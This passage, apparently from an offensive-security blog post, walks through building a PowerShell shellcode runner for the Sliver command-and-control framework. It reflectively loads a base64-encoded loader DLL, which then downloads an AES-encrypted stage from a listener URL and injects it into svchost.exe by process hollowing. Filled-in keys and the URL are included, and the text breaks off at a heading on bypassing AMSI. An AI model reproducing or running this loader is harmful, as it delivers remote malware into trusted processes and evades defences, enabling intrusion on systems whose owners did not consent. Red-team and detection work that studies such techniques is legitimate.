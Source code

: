 # Writing the Powershell Shellcode Runner:

- first we will have to copy the raw bytes of the assembly , for that we will use this powershell command(this will copy the data to your cllipboard):
```powershell
get-content -encoding byte -path .\sliverloader.dll | clip
```
- next we will use [cyberchef]() to convet the data to base64 as follows:
![base64](/post/base64cyberchef.PNG)
- copy the base64 string and paste it on this template script:
```powershell
$encodeStr = "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...etc"

$decodeStr = [System.Convert]::FromBase64String($encodeStr)
[System.Reflection.Assembly]::Load($decodeStr)
$url = #stage listener url
$TargetBinary = #the binarry to hollow and inject shellcode into (svchost.exe as an example)
[byte[]]$AESKey = 
[byte[]]$AESIV = 


$CompressionAlgorithm = "deflate9" # gzip, leave empty for no decompression
[Sl1verLoader.Program]::DownloadAndExecute($url,$TargetBinary,$CompressionAlgorithm,$AESKey,$AESIV)#lunch the method 
```
the only problem i face with powershell is that it does not support raw byte encoding which Sliver C2 uses for AES Encryption. the workarounds for this are to either embed the keys inside the assembly which will make the process of changing them tedious. or convert the keys to raw bytes using cyberchef and passing them to the script which i ended up using. 
- to convert the keys to raw bytes ,  use the follwing receipe on cyberchef:
![keys](/post/keyscyberchef.PNG)
- our final shellcode runner will look like this:
```powershell
$encodeStr = "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA..etc"

$decodeStr = [System.Convert]::FromBase64String($encodeStr)
[System.Reflection.Assembly]::Load($decodeStr)
$url = "https://192.168.1.11:8080/test.woff"
$TargetBinary = "svchost.exe"
[byte[]]$AESKey = 0x44,0x28,0x47,0x2b,0x4b,0x62,0x50,0x65,0x53,0x68,0x56,0x6d,0x59,0x71,0x33,0x74,0x36,0x76,0x39,0x79,0x24,0x42,0x26,0x45,0x29,0x48,0x40,0x4d,0x63,0x51,0x66,0x54
[byte[]]$AESIV = 0x38,0x79,0x2f,0x42,0x3f,0x45,0x28,0x47,0x2b,0x4b,0x62,0x50,0x65,0x53,0x68,0x56

$CompressionAlgorithm = "deflate9"
[Sl1verLoader.Program]::DownloadAndExecute($url,$TargetBinary,$CompressionAlgorithm,$AESKey,$AESIV)
```

# AMSI Bypass
